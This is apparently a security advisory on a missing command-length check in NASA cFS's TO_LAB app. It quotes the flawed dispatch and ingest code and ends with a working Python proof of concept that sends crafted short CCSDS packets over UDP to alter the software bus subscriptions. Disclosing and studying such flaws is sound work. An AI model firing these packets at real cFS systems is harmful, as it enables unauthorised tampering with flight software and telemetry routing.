


### Overview

- Vendor : NASA
- Product : core Flight System (cFS) / TO_LAB
- Version : cFS v7.0.2-rc1 (commit 63b6f8d); the length check is absent from every public revision of nasa/to_lab
- Vulnerability Class : Improper Input Validation (CWE-20)

### Description

A vulnerability was identified in NASA cFS v7.0.2-rc1. The affected function is TO_LAB_ProcessGroundCommand of the file apps/to_lab/fsw/src/to_lab_dispatch.c. The function dispatches all seven ground command codes straight to their handlers without checking the declared CCSDS length, while the other applications in the bundle verify it first (a VerifyCmdLength or VerifyMsgLen helper, or an expected-length table in CF), and the check is absent from every public revision of TO_LAB. A command that declares a payload length of 1 — a bare 8-byte CCSDS header — is therefore accepted and processed as a valid command, with its payload fields taken from the trailing bytes of the datagram. The attack is possible to be carried out remotely over the command uplink, which in the stock bundle is ci_lab on UDP port 1234, and the CCSDS command checksum is not verified by default. A short command can then change the software bus subscription table to arbitrary message IDs, including message IDs published by core services, and retarget the telemetry downlink to an arbitrary IP address.

### Vulnerability details

Every cFS ground command is a CCSDS packet whose primary header carries a length field, and each application is expected to verify that the declared length matches the size of the command structure it is about to read before touching any payload field. This is the cFS convention: a `*VerifyCmdLength()` helper compares `CFE_MSG_GetSize()` against `sizeof()` of the command type and rejects the packet on mismatch. Every core service and every other application in the bundle follows it.

TO_LAB does not. `TO_LAB_ProcessGroundCommand()` dispatches all seven command codes straight to their handlers with the raw software bus buffer, and each handler reads its payload structure from fixed offsets no matter how long the packet claims to be. A ground command that declares a payload length of 1 — a bare 8-byte CCSDS header with no parameters — is therefore accepted and processed as a valid command, with its payload fields taken from the bytes that follow the declared message inside the datagram.

`apps/to_lab/fsw/src/to_lab_dispatch.c:38-82` — no length check on any command:

```c
void TO_LAB_ProcessGroundCommand(const CFE_SB_Buffer_t *SBBufPtr)
{
    CFE_MSG_FcnCode_t FcnCode = 0;

    CFE_MSG_GetFcnCode(&SBBufPtr->Msg, &FcnCode);

    switch (FcnCode)
    {
        case TO_LAB_NOOP_CC:
            TO_LAB_NoopCmd((const TO_LAB_NoopCmd_t *)SBBufPtr);
            break;

        case TO_LAB_RESET_STATUS_CC:
            TO_LAB_ResetCountersCmd((const TO_LAB_ResetCountersCmd_t *)SBBufPtr);
            break;

        case TO_LAB_SEND_DATA_TYPES_CC:
            TO_LAB_SendDataTypesCmd((const TO_LAB_SendDataTypesCmd_t *)SBBufPtr);
            break;

        case TO_LAB_ADD_PKT_CC:
            TO_LAB_AddPacketCmd((const TO_LAB_AddPacketCmd_t *)SBBufPtr);
            break;

        case TO_LAB_REMOVE_PKT_CC:
            TO_LAB_RemovePacketCmd((const TO_LAB_RemovePacketCmd_t *)SBBufPtr);
            break;

        case TO_LAB_REMOVE_ALL_PKT_CC:
            TO_LAB_RemoveAllCmd((const TO_LAB_RemoveAllCmd_t *)SBBufPtr);
            break;

        case TO_LAB_OUTPUT_ENABLE_CC:
            TO_LAB_EnableOutputCmd((const TO_LAB_EnableOutputCmd_t *)SBBufPtr);
            break;

        default:
            CFE_EVS_SendEvent(TO_LAB_FNCODE_ERR_EID,
                              CFE_EVS_EventType_ERROR,
                              "L%d TO: Invalid Function Code Rcvd In Ground Command 0x%x",
                              __LINE__,
                              (unsigned int)FcnCode);
            ++TO_LAB_Global.HkTlm.Payload.CommandErrorCounter;
            break;
    }
}
```

The defect is reachable because the ingest check is one-sided. `apps/ci_lab/fsw/src/ci_lab_passthru_decode.c:97-109` only rejects a packet when the declared size is larger than the received datagram, so a packet that declares less than it carries passes:

```c
        /* Check the size from within the header itself, compare against network buffer size */
        Status = CFE_MSG_GetSize(&MsgBufPtr->Msg, &MsgSize);

        if ((Status == CFE_SUCCESS) && (MsgSize > SourceSize))
        {
            Status = CFE_STATUS_WRONG_MSG_LENGTH;

            CFE_EVS_SendEvent(CI_LAB_INGEST_LEN_ERR_EID,
                              CFE_EVS_EventType_ERROR,
                              "CI: cmd dropped - length mismatch, %lu (hdr) / %lu (packet)\n",
                              (unsigned long)MsgSize,
                              (unsigned long)SourceSize);
        }
```

The software bus then forwards the message with the declared content size while the ingest buffer still holds the trailing bytes, so the handler consumes data the packet says does not exist. In `apps/to_lab/fsw/src/to_lab_cmds.c:172,218,232-233` the subscription is taken directly from that payload:

```c
    const TO_LAB_AddPacket_Payload_t *pCmd = &data->Payload;
    ...
            status = CFE_SB_SubscribeEx(pCmd->Stream, TO_LAB_Global.Tlm_pipe, pCmd->Flags, pCmd->BufLimit);
    ...
                TO_LAB_Global.ActiveSubs[TO_LAB_Global.ActiveSubCount] = pCmd->Stream;
                ++TO_LAB_Global.ActiveSubCount;
```

Because `CI_LAB_ReadUpLink()` reuses its ingest buffer when an earlier transmit failed, a short command can also be processed with payload bytes left over from a previous datagram. In the default build the CCSDS command checksum is not verified (`CFE_MSG_VerificationAction()` accepts unconditionally), so both the length field and the function code are fully attacker-controlled.

### PoC

```
#!/usr/bin/env python3
# TO_LAB command length validation bypass - minimal PoC
# Target : NASA cFS v7.0.2-rc1, stock bundle running in the foreground
# Run    : python3 poc.py
# Expect : the bundle console prints, once per frame,
#          "L237 TO_LAB AddPkt 0x891, QoS 0.0, limit 4" (and 0x892)
import socket
import struct
import time

CI = ("127.0.0.1", 1234)
_seq = 0

# Downlink is opened beforehand with the bundled script:
#   tools/cFS-GroundSystem/Subsystems/cmdUtil/to-enable-tlm.sh
# (only needed to see the events on the ground side; the commands execute either way)


def pkt(mid, fc, payload, dlen):
    """CCSDS command: MID(2) seq(2) len(2) FC(1) cksum(1) payload"""
    global _seq
    _seq = (_seq + 1) & 0x3FFF
    p = struct.pack(">HHHB", mid, 0xC000 | _seq, dlen, fc) + b"\x00" + payload
    c = 0xFF
    for b in p:
        c ^= b
    return p[:7] + bytes([c]) + p[8:]


ci = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

# Declared length 1 means the message ends at byte 8; the Stream, QoS and
# BufLimit fields are carried after that boundary. Two frames of identical
# shape with different Stream values show which bytes the handler consumed.
for stream in (b"\x91\x08", b"\x92\x08"):
    frame = pkt(0x1880, 2, stream + b"\x00\x00\x00\x00\x04\x00", dlen=1)
    ci.sendto(frame, CI)
    print("tx", frame.hex())
    time.sleep(1)
```



| offset | field | value | meaning |
|---|---|---|---|
| 0-1 | message ID | `0x1880` | TO_LAB command |
| 2-3 | sequence | `0xC001` | sequence counter |
| 4-5 | length | `0x0001` | CCSDS length field = total - 7, so the packet declares 8 bytes |
| 6 | function code | `0x02` | ADD_PKT |
| 7 | checksum | `0x38` | |
| 8-15 | trailing bytes | `91 08 00 00 00 00 04 00` | Stream, QoS and BufLimit, beyond the declared message |

The datagram is 16 bytes long, so eight bytes are carried beyond what the header declares; the events reported by the target come from those eight bytes.



Both frames declare a length of 1, i.e. a message that ends at byte 8, while the datagram is 16 bytes; the Stream, QoS and BufLimit fields sit in those trailing eight bytes. The two frames have an identical shape and differ only in the Stream value placed there, and the target reports exactly that value in each event, which shows the handler consumed data the packet declares not to contain. The downlink is opened beforehand with the bundled `tools/cFS-GroundSystem/Subsystems/cmdUtil/to-enable-tlm.sh` so the events are visible on the ground side; the commands execute either way.
